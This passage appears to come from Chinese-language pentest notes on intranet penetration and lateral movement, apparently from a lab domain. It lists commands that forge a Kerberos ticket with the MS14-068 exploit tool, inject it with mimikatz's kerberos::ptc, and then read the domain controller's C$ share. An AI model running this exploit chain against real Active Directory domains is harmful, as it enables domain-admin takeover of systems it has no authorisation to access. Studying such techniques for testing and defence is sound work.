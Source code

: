 ![image-20220318194110678](内网渗透&横向移动/image-20220318194110678.png)

直接生成票据：

```
MS14-068.exe -u yutaowin10@ghost.com -s S-1-5-21-1238213221-2393825874-2881136966-1109 -d 192.168.188.100 -p Admin123!
```

使用生成的票据：

```
kerberos::ptc TGT_yutaowin10@ghost.com.ccache
```

通过域控的主机名访问：

```
dir \\WIN-4JS3YOGGQ2T\c$
```
